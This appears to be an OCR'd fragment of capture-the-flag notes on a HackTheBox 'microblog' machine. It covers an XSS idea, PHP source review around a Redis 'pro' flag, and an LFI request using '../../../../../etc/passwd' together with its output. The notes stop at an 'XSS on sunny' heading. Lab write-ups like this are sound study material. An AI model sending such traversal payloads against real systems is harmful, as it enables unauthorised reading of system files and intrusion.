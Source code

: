 We can register and create a blog.

The **"Visit Site"** button takes us to a new domain - `<blogname>.microblog.htb`.

When we visit the blog, it sees the cookie and has a banner saying:

```
Test, this is your blog! Edit it here.
```

Editing redirects to `<blogname>.microblog.htb/edit/`

We can put **arbitrary JS** there and it executes after visiting the blog - XSS?

#

We can look at **sunny**'s `/edit/` source to see how it works.

```php
if(file_exists("bulletproof.php")) {
    require_once "bulletproof.php";
}
```

It's using **bulletproof.php 4.0.0** which is probably not safe - but to upload files, we need to be a **pro** user:

```php
//add image
if (isset($_FILES['image']) && isset($_POST['id'])) {
    if(isPro() === "false") {
        print_r("Pro subscription required to upload images");
        header("Location: /edit?message=Pro subscription required&status=fail");
        exit();
    }
```

`/register/`:

```php
$redis->HSET(trim($_POST['username']), "pro", "false"); //not ready yet, license keys coming soon
```

To become a pro user, we can try to edit **sunny** and put an XSS there.

# LFI

```
POST /edit/index.php

id=../../../../../etc/passwd&header=
```

- `/etc/passwd`

```
cooper:x:1000:1000::/home/cooper
```

# XSS on sunny
